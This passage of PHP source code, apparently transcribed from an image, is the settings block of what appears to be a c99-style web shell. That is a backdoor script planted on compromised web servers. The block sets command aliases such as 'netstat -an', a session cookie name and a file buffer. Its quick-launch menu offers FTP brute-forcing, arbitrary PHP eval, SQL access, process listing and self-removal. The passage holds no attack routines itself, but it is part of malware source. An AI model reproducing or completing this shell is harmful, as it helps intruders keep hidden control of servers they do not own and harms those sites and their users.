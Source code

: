  );
}
else
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "dir"),
  array("show opened ports", "netstat -an")
 );
}

$sess_cookie = "k1r4vars"; // Cookie-variable name

$usefsbuff = TRUE; //Buffer-function
$copy_unset = FALSE; //Remove copied files from buffer after pasting

//Quick launch
$quicklaunch = array(
 array("&lt;img src=\"".$surl."act=img&img=home\" alt=\"Home\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl),
 array("&lt;img src=\"".$surl."act=img&img=back\" alt=\"Back\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.back(1)"),
 array("&lt;img src=\"".$surl."act=img&img=forward\" alt=\"Forward\" height=\"20\" width=\"20\" border=\"0\"&gt;","#\" onclick=\"history.go(1)"),
 array("&lt;img src=\"".$surl."act=img&img=up\" alt=\"UPDIR\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=ls&d=%upd&sort=%sort"),
 array("&lt;img src=\"".$surl."act=img&img=refresh\" alt=\"Refresh\" height=\"20\" width=\"17\" border=\"0\"&gt;",""),
 array("&lt;img src=\"".$surl."act=img&img=search\" alt=\"Search\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=search&d=%d"),
 array("&lt;img src=\"".$surl."act=img&img=buffer\" alt=\"Buffer\" height=\"20\" width=\"20\" border=\"0\"&gt;",$surl."act=fsbuff&d=%d"),
 array("&lt;b&gt;Encoder&lt;/b&gt;",$surl."act=encoder&d=%d"),
 array("&lt;b&gt;Tools&lt;/b&gt;",$surl."act=tools&d=%d"),
 array("&lt;b&gt;Proc.&lt;/b&gt;",$surl."act=processes&d=%d"),
 array("&lt;b&gt;FTP brute&lt;/b&gt;",$surl."act=ftpquickbrute&d=%d"),
 array("&lt;b&gt;Sec.&lt;/b&gt;",$surl."act=security&d=%d"),
 array("&lt;b&gt;SQL&lt;/b&gt;",$surl."act=sql&d=%d"),
 array("&lt;b&gt;PHP-code&lt;/b&gt;",$surl."act=eval&d=%d"),
 array("&lt;b&gt;Update&lt;/b&gt;",$surl."act=update&d=%d"),
 array("&lt;b&gt;Feedback&lt;/b&gt;",$surl."act=feedback&d=%d"),
 array("&lt;b&gt;Self remove&lt;/b&gt;",$surl."act=selfremove"),
 array("&lt;b&gt;Logout&lt;/b&gt;","#\" onclick=\"if (confirm('Are you sure?')) window.close()")
);

//Highlight-code colors
$highlight_background = "#c0c0c0";
$highlight_bg = "#FFFFFF";
$highlight_comment = "#6A6A6A";
$highlight_default = "#0000BB";
$highlight_html = "#1300FF";
$highlight_keyword = "#007700";
$highlight_string = "#000000";
